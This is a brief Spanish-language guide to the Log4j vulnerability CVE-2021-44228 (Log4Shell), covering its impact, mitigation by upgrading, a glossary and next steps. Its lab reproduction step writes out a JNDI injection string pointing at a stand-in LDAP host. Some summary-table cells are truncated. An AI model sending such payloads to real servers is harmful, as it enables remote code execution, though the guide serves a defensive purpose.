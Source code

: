 # CVE-2021-44228 Guía de Vulnerabilidad

## 🔎 Descripción General

- **CVE-2021-44228**: Una vulnerabilidad crítica en Log4j que permite ejecución remota de código al registrar datos manipulados.

## ⚠️ Impacto

- Permite a un atacante ejecutar código remotamente enviando una cadena especial al servidor.

## 🧪 Reproducción (Laboratorio Aislado)

Enviar un encabezado HTTP personalizado o parámetro con `${jndi:ldap://malicioso}`.

## 🛡️ Mitigación

Actualizar Log4j a la versión 2.17.0 o superior.

## 📝 Glosario

- **CVE**: Identificador de vulnerabilidad común.
- **RCE**: Ejecución remota de código.
- **PoC**: Prueba de concepto.

## ✅ Tabla Resumen

| Aspecto              | Detalles                    |
|----------------------|-----------------------------|
| ID CVE               | CVE-2021-44228                    |
| Impacto              | Permite a un atacante ejecutar código remotamente enviando una cadena especial al servidor      |
| Tipo de Explotación  | Permite         |
| Requiere Autenticación | No                        |
| Mitigación           | Actualizar Log4j a la versión 2  |

## 🔄 Próximos Pasos

- Auditar sistemas afectados.
- Aplicar parches.
- Implementar controles adicionales.
